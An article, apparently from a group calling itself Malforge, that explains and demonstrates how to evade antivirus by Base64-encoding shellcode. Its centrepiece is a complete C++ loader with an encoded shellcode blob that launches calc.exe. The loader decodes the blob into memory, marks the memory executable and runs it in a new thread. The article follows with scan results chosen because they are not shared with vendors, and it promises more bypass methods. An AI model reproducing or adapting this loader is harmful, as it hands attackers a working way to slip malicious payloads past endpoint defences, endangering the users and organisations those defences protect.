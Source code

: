 # AntiVirus Evasion with Payload Encoding

## Introduction

This article explores a method to evade antivirus detection by encoding shellcode with Base64, making it harder for security tools to identify the payload.

This article explains how Base64 encoding is used to conceal a malicious payload. During execution, the payload is decoded and run, helping to bypass static antivirus detection—though dynamic analysis and sandbox environments may still flag it.

![image](https://github.com/user-attachments/assets/c086dade-7981-4e0d-9075-b0a8c0210afa)

### Base64 :

> Base64 - MDN Web Docs Glossary: Definitions of Web-related terms | MDN\
Base64 is a group of similar binary-to-text encoding schemes that represent binary data in an ASCII string format by [developer.mozilla.org](https://developer.mozilla.org/en-US/docs/Glossary/Base64)

**Base64** is a [binary-to-text encoding](https://en.wikipedia.org/wiki/Binary-to-text_encoding) method that converts binary data into ASCII characters by encoding it in a radix-64 format, making it suitable for data transmission and obfuscation.

Base64 encoding is used to safely encode binary data for storage or transmission over systems that handle ASCII, preserving data integrity during transfer. It's widely used in applications like email [(MIME)](https://en.wikipedia.org/wiki/MIME) and embedding complex data in formats like [XML](https://developer.mozilla.org/en-US/docs/Web/XML).

![image](https://github.com/user-attachments/assets/60411ba5-d53e-497a-9936-e1265616d7f1)

Below is the code implementation of Base64 encoding technique for antivirus evasion :

```C++
// open calc.exe
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment(lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);

int DecodeBase64(const BYTE *src, unsigned int srcLen, char *dst, unsigned int dstLen)
{

    DWORD outLen;
    BOOL fRet;

    outLen = dstLen;
    fRet = CryptStringToBinary((LPCSTR)src, srcLen, CRYPT_STRING_BASE64, (BYTE *)dst, &outLen, NULL, NULL);

    if (!fRet)
        outLen = 0; // failed

    return (outLen);
}

int main(void)
{

    void *exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // Allocate new memory buffer for payload
    exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Decode the payload back to binary form
    DecodeBase64((const BYTE *)calc_payload, calc_len, (char *)exec_mem, calc_len);

    // Make the buffer executable
    rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

    // If all good, execute!
    if (rv != 0)
    {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Two functions are used in this example:

  - **Main:** First, it allocates memory with `VirtualAlloc`, then decodes the Base64 payload using the `DecodeBase64` function. After preparing the payload, it marks the buffer as executable with             
    `VirtualProtect` and finally executes it using `CreateThread`.

  - **DecodeBase64:** This function converts the Base64 encoded payload into plain text using `CryptStringToBinary` and returns the length of the decoded payload."

## POC :

To test the payload against antivirus software, the following website is used.

> AntiScan.Me | Online Virus Scanner Without Result Distribution\
Scan your file online with multiple different antiviruses without distributing the results of your scan. [antiscan.me](https://www.antiscan.me/)

**Virustotal** is often criticized for using the malware uploaded to its platform.

This are the results without Base64 payload encoding:

![image](https://github.com/user-attachments/assets/eeb7afac-94cb-489c-8dc5-bb3504302ff3)

This are the results with Base64 payload encoding:

![image](https://github.com/user-attachments/assets/9e7ddb18-d699-4003-8efa-65531d78b9d1)

## Conclusions : 

In conclusion, using Base64 helps evade some antivirus software, but not all. Future articles will explore additional methods to bypass more antivirus detection. 

Thanks for reading! ^_^	

**-Malforge Group.**
